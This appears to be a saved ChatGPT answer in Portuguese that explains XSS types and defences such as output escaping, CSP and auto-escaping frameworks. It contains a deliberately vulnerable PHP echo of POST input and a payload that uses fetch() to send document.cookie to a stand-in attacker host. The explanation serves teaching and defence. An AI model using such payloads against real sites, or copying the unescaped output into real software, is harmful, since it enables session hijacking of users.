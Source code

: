 # XSS

## by chatgpt

###

### q2

> Fale mais sobre XSS

Claro, Rafael! Vamos explorar o **XSS (Cross-Site Scripting)** de forma prática, direta e detalhada:

---

## 💡 O que é XSS?

**XSS** é uma vulnerabilidade que permite a um atacante **injetar scripts maliciosos em páginas vistas por outros usuários**.  
Esse código é executado **no navegador da vítima**, com os **mesmos privilégios da sessão legítima**.

---

## 🎯 Objetivo do atacante

- Roubar cookies de sessão.
- Redirecionar para sites maliciosos.
- Capturar dados digitados (ex: senhas).
- Instalar malware via navegador.
- Manipular a página visualmente.

---

## 🧨 Tipos de XSS

| Tipo              | Como funciona                                            | Exemplo                                                       |
|-------------------|----------------------------------------------------------|----------------------------------------------------------------|
| **Refletido**     | O script vem direto da URL e é refletido na resposta     | `https://site.com/search?q=<script>alert(1)</script>`         |
| **Armazenado**    | O script fica salvo no banco e é exibido a outras vítimas| Comentários, fóruns, perfis com `<script>`                    |
| **DOM-based**     | O script manipula o DOM via JS sem interação com o servidor | `document.location`, `innerHTML` usado sem cuidado             |

---

## ⚠️ Exemplo real de XSS Armazenado (em PHP puro)

### PHP com falha:
```php
// exibir_comentario.php
echo $_POST['comentario'];
```

### Usuário malicioso envia:
```html
<script>fetch('https://attacker.com/log?cookie=' + document.cookie)</script>
```

O navegador da vítima executa o script e envia seu cookie de sessão ao invasor.

---

## 🔒 Como se proteger de XSS

### 1. **Escape de saída (output)**
Sempre que mostrar dados do usuário:

#### PHP:

```php
echo htmlspecialchars($comentario, ENT_QUOTES, 'UTF-8');
```

#### Laravel (Blade):

```blade
{{ $comentario }}  {{-- já escapa por padrão --}}
{!! $comentario !!} {{-- PERIGOSO: usa apenas se confiar 100% no conteúdo --}}
```

---

### 2. **Content Security Policy (CSP)**
Bloqueia execução de scripts não autorizados.

```http
Content-Security-Policy: default-src 'self';
```

---

### 3. **Filtros de input (não são suficientes sozinhos)**
Ex: bloquear `<script>`, `onerror`, `javascript:`

---

### 4. **Use frameworks que escapam por padrão**
Laravel, Django, Rails... escapam automaticamente no template.

---

## ✅ Conclusão

O XSS é **um dos ataques mais comuns e perigosos**, porque ataca **o usuário**, não o servidor diretamente.  
Ele serve como **porta de entrada** para sequestro de sessão, phishing, keylogging e mais.

---

Se quiser, posso montar um pequeno ambiente PHP vulnerável para você testar XSS localmente com ataques simples — deseja esse exemplo?